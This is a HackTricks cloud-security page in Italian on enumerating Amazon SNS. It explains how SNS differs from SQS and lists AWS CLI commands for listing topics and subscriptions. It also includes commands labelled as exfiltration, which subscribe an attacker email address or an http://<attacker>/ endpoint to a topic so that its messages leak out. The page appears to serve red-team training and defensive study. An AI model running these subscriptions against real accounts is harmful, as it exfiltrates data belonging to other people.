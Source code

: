 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) è descritto come un **servizio di messaggistica completamente gestito**. Supporta sia i tipi di comunicazione **applicazione-a-applicazione** (A2A) che **applicazione-a-persona** (A2P).

Le caratteristiche chiave per la comunicazione A2A includono i **meccanismi di pubblicazione/sottoscrizione (pub/sub)**. Questi meccanismi introducono **argomenti**, cruciali per abilitare messaggi **push-based** ad alta capacità e **many-to-many**. Questa funzionalità è altamente vantaggiosa in scenari che coinvolgono sistemi distribuiti, microservizi e architetture serverless basate su eventi. Sfruttando questi argomenti, i sistemi di pubblicazione possono distribuire messaggi in modo efficiente a un **ampio numero di sistemi di sottoscrizione**, facilitando un modello di messaggistica fanout.

### **Differenza con SQS**

**SQS** è un servizio **basato su coda** che consente comunicazioni punto-a-punto, garantendo che i messaggi siano elaborati da un **singolo consumatore**. Offre **consegna almeno una volta**, supporta code standard e FIFO, e consente la retention dei messaggi per ripetizioni e elaborazioni ritardate.\
D'altra parte, **SNS** è un servizio **basato su pubblicazione/sottoscrizione**, che consente comunicazioni **uno-a-molti** trasmettendo messaggi a **più sottoscrittori** simultaneamente. Supporta **vari endpoint di sottoscrizione come email, SMS, funzioni Lambda e HTTP/HTTPS**, e fornisce meccanismi di filtraggio per la consegna mirata dei messaggi.\
Sebbene entrambi i servizi consentano il disaccoppiamento tra i componenti nei sistemi distribuiti, SQS si concentra sulla comunicazione in coda, mentre SNS enfatizza i modelli di comunicazione basati su eventi e fan-out.

### **Enumerazione**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Nota che se il **topic è di tipo FIFO**, possono essere utilizzati solo gli abbonati che usano il protocollo **SQS** (HTTP o HTTPS non possono essere utilizzati).

Inoltre, anche se il `--topic-arn` contiene la regione, assicurati di specificare la regione corretta in **`--region`** o riceverai un errore che sembra indicare che non hai accesso, ma il problema è la regione.
{% endhint %}

#### Accesso non autenticato

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalation dei privilegi

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post sfruttamento

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistenza

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Riferimenti

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
